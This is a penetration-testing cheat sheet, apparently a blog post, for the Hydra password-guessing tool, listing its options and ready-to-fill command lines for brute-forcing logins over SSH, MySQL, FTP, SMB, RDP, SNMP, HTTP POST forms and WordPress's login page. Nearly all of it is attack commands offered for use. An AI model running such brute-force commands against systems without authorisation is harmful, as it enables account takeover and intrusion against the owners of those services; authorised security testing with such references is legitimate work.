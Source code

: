 ```yaml
---
title: CheatSheet - Hydra
author: 4n3i5v74
date: 2020-12-01 08:10:00 +0530
categories: [CheatSheet, Hydra]
tags: [cheatsheet, hydra, pentest]
pin: true
---
```



## Hydra Options

- `-l <name>` - username
- `-L <file>` - multiple usernames
- `-p <pass>` - single known password
- `-P <file>` - wordlist
- `-s <port>` - custom port
- `-f` - exit if one login and password combination is found, per host
- `-F` - exit if one login and password combination is found, global
- `-t` - number of connects in parallel, per target (default 16)
- `-T` - number of connects in parallel, global (default 64)
- `-w` - wait time for response (default 32)
- `-q` - ignore errors
- `-S` - ssl connect
- `-u` - loop around users and not passwords (effective with -x)
- `-v` - verbose
- `-V` - show login+pass for each attempt
- `-d` - debug mode


## Bruteforce Common services

- `hydra -f -l <user> -P <wordlist> <ip> -t 10 <protocol>`
- Protocols - `ssh` `mysql` `ftp` `smb` `rdp` `snmp`


## Bruteforce HTTP

- HTTP POST - `hydra -f -l <user> -P <wordlist> <ip> -t 10 http-post-form "<login-page>:<request-body>:<error-message>"`
- Example POST - `hydra -f -l <user> -P <wordlist> <ip> -t 10 http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"`
- Wordpress Bruteforce - `hydra -f -l <user> -P <wordlist> <ip> -t 10 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"

